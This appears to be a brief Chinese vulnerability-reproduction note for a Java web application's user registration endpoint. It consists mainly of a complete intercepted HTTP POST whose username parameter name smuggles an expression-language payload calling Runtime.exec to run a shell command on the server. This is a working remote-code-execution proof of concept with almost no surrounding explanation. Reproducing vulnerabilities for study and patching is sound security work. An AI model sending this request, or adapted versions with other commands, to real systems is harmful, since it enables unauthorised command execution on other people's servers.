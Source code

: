 ![img](assets/1669925877556-83ea9bfd-ccc9-4d79-a78b-ae7cb75a236c.png)



漏洞复现

1.  在注册的时候抓包，并修改成如下数据包：  

```plain
POST /users?page=&size=5 HTTP/1.1
Host: 192.168.1.10:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://192.168.1.10:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.1.10:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=admin&password=admin888&repeatedPassword=admin888
```
